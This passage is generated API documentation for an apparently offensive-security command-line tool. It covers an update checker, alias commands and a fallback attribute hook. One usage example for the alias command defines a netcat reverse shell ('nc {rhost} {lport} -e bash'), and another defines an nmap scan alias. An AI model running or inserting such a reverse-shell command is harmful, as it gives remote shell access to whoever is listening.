    - Reads the local version from a JSON file in the script's root directory.
    - Compares the version numbers and determines if an update is needed.

Behavior:
    - Requires `requests` library to fetch the remote version.
    - Uses JSON parsing to extract version numbers.

Usage:
    check_update

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="miscmigratedcommandset-do_addalias"></a>

#### `MiscMigratedCommandSet.do_addalias`

`method` | [cli/commands/misc_migrated.py:1099](../../cli/commands/misc_migrated.py#L1099)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_addalias(self, arglist)
```

Add a new alias with support for placeholders like {rhost}, {lhost}, {lport}, etc.

Usage:
    addalias <name> <command>

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `arglist` |  |  |  |

**Example**

```python
addalias myrev sh rlwrap nc {rhost} {lport} -e bash
addalias scan run_script "lazyscripts/nmap_scan.ls {rhost}"
```

<a id="miscmigratedcommandset-do_listaliases"></a>

#### `MiscMigratedCommandSet.do_listaliases`

`method` | [cli/commands/misc_migrated.py:1151](../../cli/commands/misc_migrated.py#L1151)

Decorators: `@cmd2.with_category('12. Miscellaneous')`

```python
def do_listaliases(self, _)
```

List all available aliases.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `_` |  |  |  |

*Calls:* [`print_msg`](core.console.py.md#print_msg)

---

## Functions

<a id="__getattr__"></a>

### `__getattr__`

`function` | [cli/commands/misc_migrated.py:1172](../../cli/commands/misc_migrated.py#L1172)

```python
def __getattr__(name: str)
```

Fall back to `[`utils`](utils.py.md)` for bare-name references used by migrated commands.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `name` | `str` |  |  |

**Raises**

- `AttributeError`: (raised in the body, not documented)

---
